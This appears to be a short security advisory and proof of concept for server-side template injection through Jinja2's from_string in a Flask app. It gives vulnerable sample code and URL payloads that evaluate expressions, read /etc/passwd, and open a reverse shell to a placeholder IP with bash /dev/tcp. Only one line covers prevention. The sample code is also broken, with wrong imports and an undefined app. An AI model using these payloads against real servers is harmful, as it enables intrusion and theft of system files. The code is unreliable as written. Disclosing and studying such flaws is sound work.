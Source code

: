 <div style="text-align=:center;width=100%;">
<a href="https://ordina.nl" target="_blank"><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRBTgtBKmWL2i-76KccY9u0mrxAF9i0bPAJasA2YYeapgsL02AGlg" 
alt="Ordina  Research Lab" /></a>
</div>

#Jinja2 Command injection from_string function <br />
#Website: Ordina.nl <br />
Author: Jameel Nabbo   <br />
Email: jameel.nabbo[at]ordina.nl   <br />

// from_string function is prone to SSTI where it takes the "source" parameter as a template object and render it and then return it.


//here's an example about the vulnerable code that uses from_string function in order to handle a variable in GET called 'username' and returns Hello {username}:

```python

import Flask
import request
import Jinja2


@app.route("/")
def index():
	username = request.values.get('username')
	return Jinja2.from_string('Hello ' + username).render()


if __name__ == "__main__":
	app.run(host='127.0.0.1' , port=4444)

```


<b>POC</b>
//Exploiting the username param
http://localhost:4444/?username={{4*4}} <br />
OUTPUT: Hello 16

Reading the /etc/passwd <br />

http://localhost:4444/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }} <br />


Getting a reverse shell 
http://localhost:4444/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }}


How to prevent it:
Never let the user provide template content.
